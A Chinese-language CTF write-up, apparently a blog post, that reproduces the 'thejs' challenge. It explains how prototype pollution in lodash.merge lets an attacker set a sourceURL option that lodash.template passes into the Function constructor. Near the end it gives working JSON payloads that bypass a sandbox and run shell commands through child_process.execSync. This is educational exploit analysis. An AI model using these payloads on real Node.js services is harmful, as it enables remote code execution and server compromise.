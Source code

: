 ```yaml
---
title: code breaking thejs
date: 2020-12-30 21:14:28
updated: 2020-12-30 21:14:28
categories: Write up
---
```


复现了下P神小密圈Code breaking 挑战赛的js题`hard - thejs` <!--more-->



源码：https://github.com/phith0n/code-breaking/tree/master/2018/thejs

如果想要修改父对象的原型，有如下两种方式

1. `inst.constructor.prototype`
2. `inst.__proto__`
   那么推广一下的话，又有如下两种方式
3. `inst[constructor][prototype][]`
4. `inst[__proto__][]`
   所以也就是说只要找对数组进行操作的地方，我们就有可能完成对原型的污染。但是还要注意的是想办法赋值的`__proto__`对象并不是真正的这个对象，所以想要写到真正的`__proto__`中，我们需要一层赋值。

---



初始页面

![](https://img.npfs06.top/20210405154241.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

审计代码,关键点如下

![](https://img.npfs06.top/20210405160347.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



问题出在了lodashs.merge函数这里，这个函数存在原型链污染漏洞，会直接将注入原型的属性的值写去最底层的object。我们需要找到可以利用的点。因为通过漏洞可以控制某一种实例对象原型的属性，所以我们需要去寻找一个可以被利用的属性。

发现页面最终会通过lodash.template进行渲染，跟踪到lodash/template.js中

![](https://img.npfs06.top/20210405160750.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

恰好发现vscode提示sourceURLs,那就跟踪到这个函数看一下

https://github.com/lodash/lodash/blob/a039483886093788e7021131a9cba6ffc53f45ec/lodash.template/index.js

![](https://img.npfs06.top/20210405161121.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



可以看到options是一个对象，sourceURL是通过赋值的，options默认没有sourceURL属性，所以sourceURL默认也是为空。

如果我们能够给options的原型对象加一个sourceURL属性，那么我们就可以控制sourceURL的值。

继续往下面看，最后sourceURL传递到了Function函数的第二个参数当中：

![](http://img.npfs06.top/20210405161520.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



通过构造chile_process.exec()就可以执行任意代码了。

我们可以这么利用

```
new Function("","//# sourceURL='xxx'\r\n CODE \r\n")();
```

本来构造的是

```
global.require("child_process").execSync("whoami").toString()
```

但是此题环境中有沙箱对此进行了限制，因此如下payload是无法成功的。需要对沙箱环境进行bypass

```
{"__proto__" : {"sourceURL" : "\r\nreturn e = () => {for (var a in {}){delete Object.prototype[a];}return global.require('child_process').execSync('whoami').to
```

最终paylaod如下

```
{"__proto__" : {"sourceURL" : "\r\nreturn e = () => {for (var a in {}){delete Object.prototype[a];}return global.process.mainModule.constructor._load('child_process').execSync('ls').toString()}\r\n"}}
```

注意下content-type要改成application/json

![](http://img.npfs06.top/20210405165225.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)